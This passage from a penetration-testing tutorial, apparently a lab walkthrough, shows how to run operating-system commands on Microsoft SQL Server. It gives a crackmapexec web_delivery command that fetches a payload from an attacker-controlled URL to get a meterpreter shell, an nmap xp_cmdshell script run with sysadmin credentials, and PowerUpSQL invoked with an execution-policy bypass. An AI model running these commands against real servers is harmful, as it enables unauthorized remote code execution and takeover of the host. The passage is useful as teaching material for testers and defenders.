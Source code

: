 exploit

![](https://i0.wp.com/1.bp.blogspot.com/-P-mTOE2P53c/YR_qOGA6iqI/AAAAAAAAyQI/IZAaD6iLWAsiEhyuMm8rPFw60OwKaKgPQCLcBGAsYHQ/s16000/45.png?w=640&ssl=1)

Through the above exploit, we get the web_delivery URL, and this URL  we will use in the execution of crackmapexec, command of web_delivery.

crackmapexec mssql 192.168.1.146 -u 'ignite' -p 'Password@123' -M web_delivery -o URL=http://192.168.1.2:8080/om6cxs3B

![](https://i0.wp.com/1.bp.blogspot.com/-YLsEnBOpGig/YR_qTW6K6yI/AAAAAAAAyQM/vj8_ZMBiUMAhOtmgzmFycX9mF04ZzlH-gCLcBGAsYHQ/s16000/46.png?w=640&ssl=1)

The output of the crackmapexec shows that the target has been pwned. We can go back to the Metasploit shell and find that the target has been exploited successfully, and we have a meterpreter shell on the target machine.

![](https://i0.wp.com/1.bp.blogspot.com/-M8m6w6AYZ4Y/YR_qXBsBngI/AAAAAAAAyQU/HtUdlhbFTGgl7-818ZLMtPFVB76dLgIYgCLcBGAsYHQ/s16000/47.png?w=640&ssl=1)

**Nmap**

As we know, the XP-cmd function is disabled by default, but if we have sysadmin credentials, we can also play with the NMap script to execute the window’s commands.

nmap -p 1433 –script ms-sql-xp-cmdshell –script-args mssql.username=sa,mssql.passsword=Password@1,ms-sql-xp-cmdshell.cmd=’net user’ 192.168.1.146

![](https://i0.wp.com/1.bp.blogspot.com/-HhI0NPmilbY/YR_qcM9n1FI/AAAAAAAAyQY/SqWKR3Z3OrUp09SWW9pIC7B_1ql5ZOjSQCLcBGAsYHQ/s16000/48.png?w=640&ssl=1)

**PowerUpSQL**

First, Download the PowerUpSql from **[here.](https://github.com/NetSPI/PowerUpSQL)**  PowerUpSQL is a tool for Windows machines, includes functions that support SQL Server discovery, weak configuration auditing, privilege escalation on the scale, and post-exploitation actions such as OS command execution.

We can use the Import-Module cmdlet to import the PowerShell Script. Then use the Invoke-SQLOSCmd function, which runs the OS commands via xp_cmd shell through the SQL service account.

Here, PowerUpSQL tries to connect with the database. After the connection is successful, it checks if the user credentials that we have provided are for sysadmin or the users that we have provided have sysadmin access or not. It first enables the advanced options and then tries to enable the XP command shell functionality. Here, in this demonstration, the XP commands functionality is already enabled, so the tool runs the **whoami** command, which shows that we are the user and nt service/MSSQL$sqlexpress user.

cd PowerUPSQL-master

powershell

powershell -ep bypass

Import-Module .\PowerUpSQL.ps1

Invoke-SQLOSCmd -Username sa -Password Password@1 -Instance WIN-P83OS778EQK\SQLEXPRESS –Command whoami –Verbose

![](https://i0.wp.com/1.bp.blogspot.com/-kN3UTEONcgQ/YR_q63mDkyI/AAAAAAAAyQs/b4BbISjwmuQmY6up2h4jQxhXo1lo7-H4gCLcBGAsYHQ/s16000/50.png?w=640&ssl=1)
